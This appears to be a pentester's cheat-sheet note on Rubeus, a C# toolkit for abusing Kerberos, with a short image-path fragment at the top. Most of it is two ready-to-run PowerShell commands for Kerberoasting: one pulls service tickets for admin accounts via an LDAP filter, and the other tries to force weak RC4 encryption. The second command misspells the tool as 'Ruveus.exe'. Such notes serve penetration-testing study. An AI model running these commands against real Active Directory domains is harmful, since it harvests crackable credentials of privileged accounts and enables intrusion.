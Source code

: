 -- -
C# toolkit for interacting with and abusing Kerberos. You can find the repo [here](https://github.com/GhostPack/Rubeus)
#### Simple Kerberoast
```powershell
# Will get the TGS for admin accounts
# no wrap just makes it easier to copy+paste as it won't require we
# trim the result for whitespace and newlines. 
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# /tgtdeleg: Try to force weaker RC4 encryption
# only works on Windows Server 2016 and lower
# Windows server 2019 enforces highest excryption level by default.
.\Ruveus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

^93887f
